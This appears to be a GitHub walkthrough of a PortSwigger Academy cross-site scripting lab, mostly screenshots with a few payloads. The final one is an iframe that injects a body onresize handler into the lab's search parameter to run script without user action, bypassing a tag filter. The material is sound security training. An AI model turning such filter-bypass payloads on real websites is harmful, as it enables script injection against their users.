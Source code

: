 ## Welcome, my friend. Today we will start the [13. XSS lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/c4cd4c47-e8b4-4f77-85a9-8a2f82d14953)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/45cb33af-be4a-499e-91a5-13f53e0c4a3a)

### Let's navigate ```Go to exploit server```:

![image](https://github.com/user-attachments/assets/de25d810-9de1-4c4d-908f-150e015854b1)

### Enter ```View exploit```:

![image](https://github.com/user-attachments/assets/3c89b3cc-8bd6-4078-91d5-0e28742230a8)

### Let's enter html code in body:

```
<h1>hi</h1> <h5>0xT0R</h5>
```

![image](https://github.com/user-attachments/assets/71df0030-13c1-4250-a4bb-c675d4e9d715)

### Enter ```View exploit```:


![image](https://github.com/user-attachments/assets/dee7a958-f47d-4d74-89e9-0375a857c0b3)


### Let's enter ```javascript``` code in body:

```
<script>alert(0)</script>
```

![image](https://github.com/user-attachments/assets/06e46b94-faf2-453b-9fa0-936d57cc82da)

### Enter ```View exploit```:

![image](https://github.com/user-attachments/assets/8dc809ea-b430-432d-80c4-1a46ee26fc00)


### Let's enter ```javascript``` code in body but this code don't need to useraction:


```
<iframe src="https://0a0d003d0385dda2844045d300b60073.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

### enter ```Deliver exploit to victim``` 

![image](https://github.com/user-attachments/assets/a0c2904c-a338-4a1e-b6b3-fba8bb4eb5d6)


-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/dee96b54-f220-4e7e-8c87-81769e89b84a" >
</p>






















